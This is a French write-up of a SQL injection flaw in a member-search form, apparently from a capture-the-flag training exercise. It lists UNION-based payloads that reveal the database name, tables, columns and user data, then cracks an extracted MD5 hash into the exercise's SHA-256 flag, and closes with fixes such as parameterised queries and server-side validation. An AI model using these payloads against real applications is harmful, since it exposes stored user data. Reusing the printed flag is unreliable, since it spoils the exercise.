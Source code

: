 # Rapport de Vulnérabilité : Injection SQL

## Nom de la Faille
Injection SQL

## OWASP
**A03:2021 – Injection**

## Description
Cette faille permet à un attaquant d'exécuter des requêtes SQL arbitraires via un formulaire de recherche de membre par ID. En exploitant cette faille, l'attaquant peut accéder à des informations sensibles de la base de données, telles que les noms de tables, les noms de colonnes et même les données stockées dans ces colonnes.

## Comment Exploiter la Faille

### Étape 1 : Découverte de la base de données
Pour connaître la base de données active sur laquelle nous sommes connectés, nous utilisons la commande suivante :
```
1 UNION ALL SELECT 1, DATABASE()
```

### Étape 2 : Récupération des tables
Pour obtenir la liste de toutes les tables de la base de données active, nous exécutons la commande suivante :
```
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
```

### Étape 3 : Récupération des colonnes
Une fois les tables identifiées, nous récupérons les colonnes associées à chaque table avec la commande suivante :
```
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

### Étape 4 : Extraction du contenu des colonnes
Pour obtenir le contenu d'une colonne spécifique d'une table, nous utilisons :
```
1 AND 1=2 UNION SELECT {column_name}, null FROM users
```

### Étape 5 : Traitement des données extraites
Dans la colonne "Commentaire", nous obtenons un message nous indiquant de :
1. Déchiffrer le code en MD5.
2. Mettre le résultat en minuscule.
3. Encrypter ce résultat en SHA-256.

### Exemple de traitement
- Code MD5 extrait : `5ff9d0165b4f92b14994e5c685cdce28`
- Décodage MD5 : `FortyTwo`
- Conversion en minuscule : `fortytwo`
- Encodage SHA-256 :
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Comment Résoudre la Faille
Pour corriger cette vulnérabilité, suivez ces étapes :

1. **Paramétrisation des requêtes** : Utilisez des instructions SQL paramétrées pour éviter l'exécution directe de chaînes de caractères.
2. **Échappement des entrées utilisateurs** : Vérifiez et échappez toutes les entrées pour empêcher l'injection SQL.
3. **Validation côté serveur** : Ne faites jamais confiance aux données envoyées par l'utilisateur.
4. **Journalisation** : Surveillez les tentatives suspectes d'injection pour détecter toute activité malveillante.

## Conclusion
L'injection SQL est une vulnérabilité critique pouvant exposer des données sensibles. L'utilisation de requêtes paramétrées, la validation côté serveur et l'échappement approprié des entrées sont des pratiques indispensables pour sécuriser les applications web contre cette attaque.
